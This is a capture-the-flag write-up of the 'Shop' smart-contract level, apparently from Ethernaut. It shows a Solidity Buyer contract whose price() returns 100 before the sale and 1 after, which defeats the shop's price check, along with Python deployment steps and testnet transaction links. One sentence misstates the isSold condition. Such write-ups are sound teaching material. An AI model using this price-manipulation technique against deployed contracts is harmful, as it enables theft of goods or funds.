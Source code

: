 # Shop

## Objectives

Сan you get the item from the shop for less than the price asked?

## Solution

It is possible to return different values based on the state variable `isSold`. After the check passes where `_buyer.price() >= price && !isSold` returns true, we can internally change our contract so that the value that `price()` returns changes based on `isSold`.

All we have to do is make sure the function `price()` returns 100 when `isSold` is false and a value under 100 when `isSold` is false.

## How I did it

1. Code and deploy a Buyer contract (at: `0xB9dcacbc393D15fEa292705d66c1549035CcB3ee`) where I define the `price()` function as follows:

```cs
function price() public view returns (uint256) {
    if (shopContract.isSold()) {
        return 1;
    } else {
        return 100;
    }
}
```

If `isSold` is true, the price gets overwritten by a 1, however, in the if statement, we pass the check (requiring `price()` to return 100) since `isSold` is still false.

In python:

```python
buyer = Buyer.deploy(shop.address, _from)
```

2. Call the buy function in the Shop contract, which the Shop contract expects to see coming from another contract (in this case my Buyer contract).

```python
buyer.shop(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x2bcb495224d8fbf2ab49a0750336ff0ec2b9cb07e824022381655e51e589335b

3. Confirm that the price < 100

```python
price_assertion = shop.price() < 100
print(f"The selling price is below 100: {price_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xae682a54188a7c3de2a542e0a5699bc39a908dff1c14e8cfaa9039e593413331
